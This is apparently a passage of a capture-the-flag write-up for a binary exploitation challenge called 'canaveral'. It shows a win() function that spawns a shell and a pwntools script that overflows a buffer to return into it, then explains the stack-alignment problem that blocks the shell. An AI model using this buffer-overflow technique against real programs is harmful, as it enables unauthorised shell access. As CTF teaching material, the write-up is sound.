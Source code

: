 ```c
}

int win()
{
  return system("/bin/sh");
}
```

We can write a simple script with pwntools that returns to the win function after filling up the buffer.

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

exe = './canaveral'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

offset = 120

io = start()

payload = flat({
    offset: [
        elf.sym['win']
    ]
})

io.sendlineafter(b':', payload)
io.interactive()
```

When we try running this, we still don't get the shell.

Analyzing with gdb, we see that the mov instruction is used to move the address of the win function into the rdi register, but the address is not aligned properly.

<img width="870" alt="Screenshot 2024-10-24 at 2 05 12 PM" src="https://github.com/user-attachments/assets/52a8134c-a1ad-483b-bae0-6b95746bbc8e">

To fix this issue, we can either return to a further address in win so the address is aligned properly, or we can use a ret address to align the address properly.
